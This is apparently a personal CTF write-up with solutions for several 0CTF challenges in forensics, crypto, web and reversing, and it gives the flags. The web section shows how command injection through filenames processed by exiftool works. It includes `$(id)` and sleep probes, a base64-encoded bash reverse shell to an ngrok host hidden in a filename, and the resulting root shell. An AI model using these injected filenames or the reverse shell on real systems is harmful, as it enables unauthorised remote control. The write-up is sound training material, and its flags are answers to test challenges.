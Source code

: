 ## BIBBA 1/Forensics
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/d2871924-ee53-45bc-9df3-26557a5ab988)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/c2859581-b48a-4317-9801-a273deb5e4ce)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/effaaff9-393d-4d87-8381-d55bff37ea7c)
0CTF{pNg_h34d3rs_4r3_A_P4!n_P4!n_!n_7h3_455}
## sanity check
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/983bd774-9124-4545-a014-a3422392669e)
- go to the source code and search for "0CTF"
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/db927e03-bb29-4d6c-8126-63ddf0d56930)
0CTF{0ut_0f_B0unds}
## echoes of encryption/crypto
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/f09f6cda-98e8-4ed4-b3bf-fe524ada90b4)
- encrypt.py
```
import random
import string
def encrypt_string(input_string, seed):
    random.seed(seed)   
    allowed_chars = string.ascii_letters + string.digits
    key = ''.join(random.choices(allowed_chars, k=len(input_string)))
    encrypted_string = ''
    for i in range(len(input_string)):
        encrypted_char = chr(ord(input_string[i]) ^ ord(key[i]))
        encrypted_string += encrypted_char
    return encrypted_string.encode().hex()
seed_value = '311222'
input_string = ""
encrypted = encrypt_string(input_string, seed_value)
```
- cipher
```
5e04610a22042638723c571e1a5436142764061f39176b4414204636251072220a35583a60234d2d28082b
```
- decrypt.py
```
import random
import string
#seed1='CVE-2022-42269'
#seed1='202242269'
#seed1='CVE-2022-42269'
#seed1=7.9
seed1=202242269
random.seed(seed1)
allowed_chars = string.ascii_letters + string.digits
key = ''.join(random.choices(allowed_chars, k=43))
# print("key si ",key,"len is ",len(key))
c='5e04610a22042638723c571e1a5436142764061f39176b4414204636251072220a35583a60234d2d28082b'
#after applying bytes.fromhex()
value1=bytes.fromhex(c)
#after decodig to asci from bytes
value2=value1.decode()
# print("value2 is ",value2,"len is ",len(value2))#43
ans=''
for i in range(len(value2)):
    x=chr(ord(value2[i])^ord(key[i]))
    ans=ans+x
# print("ans is ",ans)
# print("rev is ",ans[::-1])
print("ans ",ans)
```
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/8d3cfc3a-63f9-46c7-9219-f1446ab9be83)
- 0CTF{alw4y5_r3ad_7he_d3scr!pti0n_c4r3fully}
## Data's Data/web
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/d5c96849-aec8-4582-941e-ad7d39975e82)
- frontend
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/4053f72d-236c-45d1-b839-6f02e34505cc)
- it runs exiftool on the provided file
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/1416894e-d4e4-48b2-9515-a2fa058815cc)
- so it is could be like `exiftool filename.extension`
- so if this is the case we can try to execute commands(cmd injection)
- IFS -internal field seperator
## making malicious file names
1:try id
```
C:\home\radha\Desktop\exiftool> touch '$(id)'                                                                             
C:\home\radha\Desktop\exiftool> ls
'$(id)'
```
- result
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/5d3327b1-a5e4-4ca9-8df3-946c5b61e4b5)
2: try to have a blind cmd execution(sleep?)
```
C:\home\radha\Desktop\exiftool> touch '$(sleep${IFS}10)'                                                                             
C:\home\radha\Desktop\exiftool> ls
'$(id)'  '$(sleep${IFS}10)'
```
- here the `${IFS}` is for a space
- we do get the response only after 10 secnonds from browser web page
### getting reverse shell
- `bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17011 0>&1`
- started a ngrok tcp server at port x(say 1234)  `ngrok tcp 1234`
- started a netcat listner at port x(1234) `nc -lvp 1234`
- the`0.tcp.in.ngrok.io` is part of hostname
- the 18308 is the corresponding port
```
C:\home\radha\Desktop\exiftool> ngrok tcp 1234
```
![image](https://github.com/m0wn1ka/ctf/assets/127676379/423bc5e4-a413-4b29-8906-edebd460f41f)
- the charcters like &> must be encoded
- so i did base64 encoding
- payload of reverse shell
```
C:\home\radha\Desktop\exiftool> echo 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17011 0>&1'|base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg==
```
- we need this payload to be base64 decoded on the server and get executed
- so we need to run on server like this
```
echo THIS_PAYLOAD |base64 -d|bash
```
- so this must be exeuted on the server side
- just as we executed sleep by $(sleep${IFS}10) we follow a similar approach
```
$(echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64 -d|bash)
$(echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64${IFS}-d|bash)
```
- so this must be the name of file

- creatig file
```
touch "$(echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64${IFS}-d|bash)"
```
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/38495d4c-354b-480a-8d08-5c141a1350d1)
- rev shell
```
C:\home\radha\Desktop\exiftool> nc -nvlp 1234 
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37650
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@traboda:/# whoami
whoami
root
root@traboda:/# ls
ls
```
- gettgin flag
```
root@traboda:/# cat Do*
cat Do*
FROM python:3.11
WORKDIR /
RUN apt update
RUN apt -y install exiftool
COPY requirements.txt requirements.txt
RUN pip install -r requirements.txt
COPY . .
ENV flag="0CTF{Congratulations_for_finding_the_flag}"
EXPOSE 80
CMD python3 index.pyroot@traboda:/#
```
- 0CTF{Congratulations_for_finding_the_flag}
## one liner/rev
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/641852b0-f608-4b63-a778-ca07fd19e971)
```
flag = "ƃŰŶŉůļźŞŷŭŪƄŰŘŰŧŖŔŦĦŨĬƀźōşŋůĲňĳźĖőƃũťũŸŪĞ"
flag = [~(c^i)*(-int(1/(5**0.5) * ((1 + 5**0.5)**1 / 2 - (1 - 5**0.5)**1 / 2))) + len(flag) * 6 + 15 for i, c in enumerate([ord(a) for a in flag[::-int(1/(5**0.5) * ((1 + 5**0.5)**1 / 2 - (1 - 5**0.5)**1 / 2))]])]
print(tostr(flag))
#  0CTF{___R___E__D___A___C____T_____E____D______}
```
